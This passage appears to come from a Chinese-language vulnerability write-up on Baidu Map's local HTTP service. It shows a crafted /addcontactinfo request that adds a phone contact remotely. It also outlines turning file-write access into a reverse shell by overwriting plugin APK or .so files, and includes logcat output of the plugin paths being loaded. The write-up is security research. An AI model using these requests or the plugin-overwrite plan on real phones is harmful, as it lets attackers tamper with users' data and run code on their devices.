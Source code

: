 三个判断:

1. 手机助手为系统应用直接使用android.permission.INSTALL_PACKAGES权限静默安装应用
2. 手机助手获得 root 权限后使用 su 后执行 pm install 静默安装应用
3. 非以上二种情况则弹出引用安装的确认框

所以按照这个逻辑对百度地图使用 uploadfile 就会进入第三个分支提示用户安装.

接下来是对addcontactinfo和downloadfile分析了


远程添加联系人

```
/addcontactinfo?callback=xxx&postdata=[{"fields":+[{"type":+"phone",+"type_code":+2,+"type_ext":+2,+"value":+"110"}],+"name":+"hello",+"starred":+1}]&mcmdf=inapp_xxx 
```

```
GET /addcontactinfo?callback=xxx&postdata=%5B%7B%22fields%22%3A+%5B%7B%22type%22%3A+%22phone%22%2C+%22type_code%22%3A+2%2C+%22type_ext%22%3A+2%2C+%22value%22%3A+%22110%22%7D%5D%2C+%22name%22%3A+%22hello%22%2C+%22starred%22%3A+1%7D%5D&mcmdf=inapp_xxx HTTP/1.1
Host: 192.168.1.102:40310
remote-addr: 127.0.0.1
Connection: keep-alive
Accept-Encoding: gzip, deflate
Accept: */*
```

利用1:

现在我们已经有文件写入权限,把它转化成执行权限就可以反弹 shell 了,想想之前的寄生兽漏洞.思路就比较清晰了.将文件写入插件或者 so 文件中进行覆盖后执行即可.(注意需要是第三方的 so..因为 app 的 so 是系统权限,应用本身也是无权限进行写操作的)

http://www.wooyun.org/bugs/wooyun-2015-0123871

hook DexClassLoader 构造方法后可以发现百度地图加载了如下插件

```

	10-12 19:50:18.475    1817-2364/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.advertctrl_1.1.3_1444450673270/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.advertctrl/1.1.3 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.advertctrl_1.1.3_1444450673270/lib/armeabi
	10-12 19:50:26.666    1817-2364/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.posture_1.1.0_1444450673299/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.posture/1.1.0 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.posture_1.1.0_1444450673299/lib/armeabi
	10-12 19:50:29.476    1817-2364/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.websdk_1.4.11_1444450673311/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.websdk/1.4.11 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.websdk_1.4.11_1444450673311/lib/armeabi
	10-12 19:50:29.696    1817-2675/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.cater_2.1.9_1444450673282/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.cater/2.1.9 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.cater_2.1.9_1444450673282/lib/armeabi
	10-12 19:50:29.836    1817-2677/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.hotel_2.3.8_1444450673290/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.hotel/2.3.8 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.hotel_2.3.8_1444450673290/lib/armeabi
	10-12 19:50:29.836    1817-2676/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.scenery_4.1.2_1444450673303/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.scenery/4.1.2 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.scenery_4.1.2_1444450673303/lib/armeabi
	10-12 19:50:29.966    1817-2678/? I/IPoison-com.baidu.BaiduMap﹕ dexPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.movie_2.1.1_1444450673294/com.apk | optimizedDirectory = /data/data/com.baidu.BaiduMap/cache/map.android.baidu.movie/2.1.1 | libraryPath = /data/data/com.baidu.BaiduMap/files/coms/map.android.baidu.movie_2.1.1_1444450673294/lib/armeabi
```